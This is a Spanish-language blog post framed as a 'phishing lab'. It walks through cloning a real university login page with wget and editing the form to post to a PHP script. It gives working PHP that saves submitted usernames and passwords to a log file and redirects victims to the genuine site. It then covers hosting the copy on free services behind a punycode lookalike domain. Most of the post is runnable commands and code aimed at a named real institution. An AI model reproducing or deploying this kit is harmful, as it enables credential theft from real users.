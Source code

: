```yaml
---
title: Laboratorio de pishing
author: Fredy Rosero
tags: [laboratorio, pishing]
date: 2022-05-20'
layout: post
categories: [laboratorios]
excerpt_separator: <!--more-->
---
```

![thumbnail]()

Abstract.
 <!--more-->

## Prerrequisitos
```bash
sudo apt install
```

## Método manual

### WGet
-E
--adjust-extension
> If a file of type application/xhtml+xml or text/html is downloaded and the URL does not end with the regexp \.[Hh][Tt][Mm][Ll]?, this option will cause the suffix .html to be appended to the local filename.

-H
--span-hosts
> Enable spanning across hosts when doing recursive retrieving. 

-k
--convert-links
> After the download is complete, convert the links in the document to make them suitable for local  viewing.

-K
--backup-converted
> When converting a file, back up the original version with a .orig suffix. Affects the behavior of -N. 
-p
--page-requisites
> This option causes Wget to download all the files that are necessary to properly display a given HTML page.

-nH
--no-host-directories
> Disable generation of host-prefixed directories.

#### Descarga de página
```bash
URL=https://micampus.unal.edu.co/
USER_AGENT='"Mozilla/5.0 (X11; Fedora; Linux x86_64; rv:40.0) Gecko/20100101 Firefox/60.0"'
WEB_PATH=$(pwd)/web
wget -E -H -k -K -p -nH --cut-dirs=100 -nv $URL --user-agent $USER_AGENT --directory-prefix=$WEB_PATH
```
### Index.html
Vamos a copiar el archivo `index.html`
```bash
cd web
cp index.html index.html.bkp
vim index.html
# :q
```

Luego lo formateamos con [tidy](https://www.html-tidy.org/)
```bash
tidy -indent --indent-spaces 2 --quiet --tidy-mark no index.html.bkp > index.html
```

Ahora buscamos el formulario de login y cambiamos su atributo [`action`](https://developer.mozilla.org/es/docs/Web/HTML/Element/form#attr-action) a `pish.hp` el cual será la URI del programa que procesará la información enviada por medio del formulario.
```bash
vim index.html
# q/i action=
# vi"c
# phish.php
# :w
```

Tambien identificamos el atributo `name` de los inputs del mismo formulario
```bash
# q/i name=
# :q
```

Ahora creamos el archivo `phish.php` con el comando `vim phish.php`, pegamos y el siguiente contenido y salimos con `:wq`
```php
<?php
// Extraer Form data
$form_data = file_get_contents('php://input'); // Guardar cuerpo de la petición en un string
parse_str($form_data, $parsed); // Parsea un string a variables

// Construimos el mensaje a guardar
$log = "=============+=============\n";
$log .= "Username:	" . $parsed['username'] . "\n";
$log .= "Password:	" . $parsed['password'] . "\n";
$log .= "===========================\n\n\n";

// Escribimos en el archivo `log`
$logpath = "log";
$file = fopen($logpath, 'a'); // la opción a (de append) permite abrir para agregar
fwrite($file, $log);
fclose($file);

// redirection link will be set automatically
$URL = "https://micampus.unal.edu.co/";
header("Location: ${URL}");
?>
```

Lanzamos el servidor web standalond de php con
```bash
php -S 0.0.0.0:8081
```
### Servidor web
1. Solicitamos un hosting grauito en 000webhost.com
1. Definimos el dominio p. ej. *i❤️uqbar.ml*
1. Traducimos la url a punycode en [punycoder](https://www.punycoder.com/) p. ej. *xn--iuqbar-i50d.ml*
1. Creamos un dominio en freenom.com y asignamos la redirección o registro DNS p. ej. *http://test-uqbar.000webhostapp.com/*. Esto implica verificar el correo



